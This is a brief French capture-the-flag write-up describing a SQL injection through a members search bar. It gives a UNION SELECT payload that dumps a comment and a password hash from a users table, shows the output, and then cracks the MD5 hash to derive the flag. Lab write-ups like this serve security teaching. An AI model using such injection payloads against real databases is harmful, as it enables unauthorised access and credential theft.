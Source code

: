 # Injection SQL via barre de recherche pour user
Comme pour l'injection SQL précédente, on va explorer le contenu de la base de données apres avoir acceder a des data qu'on est pas cense voir, jusqu'a trouver le bon flag.

Il ya une autre barre de researche sur la page members, qui permet de chercher des membres par id.

Encore une fois on explore les tables, jusqu'a trouver dans *users* un commentaire qui nous interesse avec la commande SQL suivante:

```sql
1 UNION SELECT Commentaire,countersign from users
```

```
ID: 1 UNION SELECT Commentaire,countersign from users 
First name: Decrypt this password -> then lower all the char. Sh256 on it and it's good !
Surname : 5ff9d0165b4f92b14994e5c685cdce28
```

Ce password est encrypter en MD5, on peut le decoder avec decodeurs MD5 comme celui ci
https://www.dcode.fr/md5-hash

Ce qui donne le mot: FortyTwo

Si on met fortytwo (en minuscule) dans un encodeur sha256 tel que https://emn178.github.io/online-tools/sha256.html on obtient le flag
